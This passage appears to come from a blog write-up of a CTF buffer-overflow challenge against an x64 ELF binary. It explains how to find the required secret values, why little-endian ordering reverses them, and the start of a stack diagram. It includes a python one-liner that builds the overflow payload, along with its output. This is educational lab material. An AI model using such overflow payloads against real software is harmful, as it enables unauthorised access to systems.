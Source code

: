 [![image](/images/posts/2018-08-05-filevault-ctf-challenge-elf-x64-buffer-overflow/5.Decision_func.png)](/images/posts/2018-08-05-filevault-ctf-challenge-elf-x64-buffer-overflow/5.Decision_func.png)

Easy! `secret_0` must be `0`, `secret_1` = `t0k3` and `secret_2` = `n4m3`.

**HOWEVER!** Because of [Little Endianness](https://en.wikipedia.org/wiki/Endianness#Little-endian), the strings will have to be written __in reverse__! 

So for `secret_1` and `secret_2` we'll need to write `3k0t` and `3m4n` respectively.


Exploit
-------

Let's put our exploit to test! The payload we'll be sending is:

{%codeblock%}
root@debian:~# python -c 'print "A" * 20 + "3m4n" + "3k0t" + "0"'
AAAAAAAAAAAAAAAAAAAA3m4n3k0t0
{% endcodeblock %}

And that's how it should look on the stack:

{%codeblock%}
** Assuming each "frame" is 4 bytes.
